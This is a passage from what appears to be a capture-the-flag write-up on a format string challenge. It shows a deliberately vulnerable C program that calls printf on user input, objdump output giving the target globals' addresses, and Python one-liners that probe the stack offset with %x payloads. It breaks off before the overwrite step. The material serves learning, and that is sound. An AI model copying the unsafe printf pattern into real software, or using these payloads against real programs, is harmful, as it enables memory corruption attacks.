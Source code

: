 Let's take a look at the C code...

```
#include <stdio.h>
#include <stdlib.h>

int target0 = 0;
int target1 = 0;

void fun0()
	{
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);

	if (target0 == 0xace5 && target1 == 0xfacade)
		{
		printf("There's a line between taking advantage, and downright exploiting. You have crossed that line. Level Cleared\n");
		}
	printf("The value of target0 is %x\n", target0);
	printf("The value of target1 is %x\n", target1);
	}

int main()
{
	fun0();
}
```

So we can see that this level is similar to the previous level. We will have to use the format string exploit caused by the printf to change the value of the integers that are being evaluated. However this time we have to write to two different integers. First let's find the static address of the "target0" and "target1" global integers.

```
$	objdump -t f3 | grep target
0804a048 g     O .bss	00000004              target0
0804a04c g     O .bss	00000004              target1
```

So the address for target0 is "0x804a048", and the address for target1 is "0x804a04c". Now we will need to find where our input is on the stack, in relation to the printf. Let's find out where the first address is stored first.

```
$	python -c 'print "\x48\xa0\x04\x08" + "%x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x"' | ./f3
H�64.f7faf5a0.f0b5ff.ffffd00e.1.804a048.252e7825.2e782432.78243325
The value of target0 is 0
The value of target1 is 0
$	python -c 'print "\x48\xa0\x04\x08" + "%6$x"' | ./f3
H�804a048
The value of target0 is 0
The value of target1 is 0
```
